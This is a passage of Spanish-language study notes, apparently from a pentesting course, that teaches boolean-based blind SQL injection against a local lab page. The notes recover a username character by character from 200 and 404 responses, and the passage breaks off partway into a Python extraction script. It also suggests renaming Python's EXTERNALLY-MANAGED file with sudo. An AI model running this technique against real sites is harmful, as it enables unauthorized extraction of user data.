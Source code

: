 En este caso nosotros suponemos que **no conocemos** el nombre del usuario **admin**, pero que **si conocemos** el nombre de la **tabla users** y la **columna username** en este caso.
Colocamos la condición de que **97=97** que es lo mismo que **a=a**

Lo que estamos haciendo es indicar que queremos filtrar de la tabla **users** el usuario que **corresponde al ID 1** pero **solo su primer carácter** para ir **identificándolo carácter por carácter** hasta conseguir el **nombre completo**.

-------

En la siguiente imagen colocamos **97** que equivale a la letra '**a**' pero en decimal, que justamente es la primer letra del usuario **'a'dmin** por lo tanto nos da el código de estado **200 OK**
También colocamos **98** que equivale a la letra '**b**' pero en decimal, pero como **no coincide** con la primer letra del usuario, nos devuelve un código de estado **404 Not Found**.

![[Petición GET con condicional.png]]

-----------

De esta manera tenemos una vía potencial de **identificar el nombre de un usuario a ciegas**, sin ver OUTPUT de nada, cuando el carácter es **correcto** o cuando **no lo es**.

Ahora entrará en juego la parte de **Python Scripting** para poder realizar esto de una manera **mucho mas eficiente**.

### Python Scripting (Boolean-based blind SQL Injection)

Para los que tengan algún problema con la instalación del módulo "**pwn**". Probar el "pip3 install pwn", y si les sale "**error: externally-managed-enviromment**", ejecuta el siguiente comando: ```sudo mv /usr/lib/python3.11/EXTERNALLY-MANAGED /usr/lib/python3.11/EXTERNALLY-MANAGED.old``` Al parecer este error ocurre a partir de python 3.11 en adelante.

#### Script Python sin usar PWN tools (Sin estética)
```python
#!/usr/bin/python3

# BOOLEAN BASED BLIND SQLI ------------------------------------------------------------

import requests
import signal
import sys
import string

# Ctrl+C ----------------------------------------------

def def_handler(sig, frame):
    print("\n\n[!] Saliendo..\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# time.sleep(10) <---- SLEEP PARA PROBAR EL CTRL+C

# CTRL+C ----------------------------------------------

# Variables Globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

def makeSQLI():

    # Aca se hace un bucle anidado para recorrer de 1 al 200 representando a la posición de cada letra, y luego del 33 al 126 representando todos los caractes en Hex existentes.
    for position in range(1, 200):
        for character in range(33, 126):
```